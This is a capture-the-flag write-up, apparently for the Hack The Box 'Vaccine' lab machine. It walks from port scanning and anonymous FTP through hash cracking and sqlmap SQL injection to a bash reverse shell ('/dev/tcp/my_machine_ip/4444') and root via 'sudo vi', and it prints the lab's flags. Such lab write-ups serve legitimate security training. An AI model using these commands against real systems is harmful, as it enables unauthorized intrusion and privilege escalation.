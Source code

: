 # [OK] - Vaccine

| Difficult: | Easy |
| --- | --- |
| OS: | Linux |
| Last edit: | 01/07/22 |

The first task was collect information from the target. So, we execute the Nmap to collect the ports and services running in the target.

```bash
> Starting Nmap 7.92 ( [https://nmap.org](https://nmap.org/) ) at 2022-07-01 03:10 EDT
Warning: 10.129.96.84 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.129.96.84
Host is up (0.16s latency).
Not shown: 65523 closed tcp ports (reset)
PORT      STATE    SERVICE VERSION
21/tcp    open     ftp     vsftpd 3.0.3
22/tcp    open     ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp    open     http    Apache httpd 2.4.41 ((Ubuntu))
6435/tcp  filtered unknown
13214/tcp filtered unknown
24038/tcp filtered unknown
34990/tcp filtered unknown
37527/tcp filtered unknown
58145/tcp filtered unknown
59805/tcp filtered unknown
63452/tcp filtered unknown
64181/tcp filtered unknown
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

There are three ports open: 21 (FTP), 22 (SSH), 80 (HTTP). Since we don't have any credentials for the SSH service, we will start off with enumeration of the port 21, since the Nmap shows that it allows anonymous login:

```bash
> ftp [anonymous@10.129.84.131](mailto:anonymous@10.129.84.131)
Password: password
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||10227|)
150 Here comes the directory listing.
-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
ftp> get backup.zip
local: backup.zip remote: backup.zip
100% |************************************************|  2533        1.40 MiB/s    00:00 ETA
226 Transfer complete.
```

In order to successfully crack the password, we will have to convert the ZIP into the hash using the ***zip2john*** module that comes within John the Ripper:

```bash
> zip2john secret_files.zip > hash.txt
```

```bash
> john hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
**741852963        (backup.zip)**     
Session completed.
```

Unzip the file backup with the password. We found in file *index.php* the password MD5 to admin.

![Untitled](pics/Untitled.png)

Decryption MD5: `MD5: “2cb42f8734ea607eefed3b70af13bbd3” = Text: “qwerty789”`

Login in Web App in port 80 with the `admin | qwerty789` credentials:

![Untitled](pics/Untitled%201.png)

We will provide the URL & the cookie to the *sqlmap* in order for it to find vulnerability. The reason why we have to provide a cookie is because of authentication:

![Untitled](pics/Untitled%202.png)

The target is vulnerable to SQL injection now we are going to provide the --os-shell flag, where we will be able to perform command shell injection:

![Untitled](pics/Untitled%203.png)

I like to use shell reverse because it is more flexible. So I enabled a *netcat* on my machine listening on port 4444 and run on the target `bash -c "bash -i >& /dev/tcp/my_machine_ip/4444 0>&1"` to call with shell.

Flag: /var/lib/postgresql/user.txt → “ec9b13ca4d6229cd5cc1e09980965bf7”

In the *dashboard.php*, we found the *postgres* password:

![Untitled](pics/Untitled%204.png)

We have sudo privileges to edit the pg_hba.conf file using vi by running `sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf`. We will go to GTFOBins to see if we can abuse this privilege [https://gtfobins.github.io/gtfobins/vi/#sudo](https://gtfobins.github.io/gtfobins/vi/#sudo)

![Untitled](pics/Untitled%205.png)

We used the (b) option to get root:

![Untitled](pics/Untitled%206.png)

`sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf`

`:set shell=/bin/sh`

`:shell`

![Untitled](pics/Untitled%207.png)

Flag: /root/root.txt → “dd6e058e814260bc70e9bbdef2715849”

End,bye!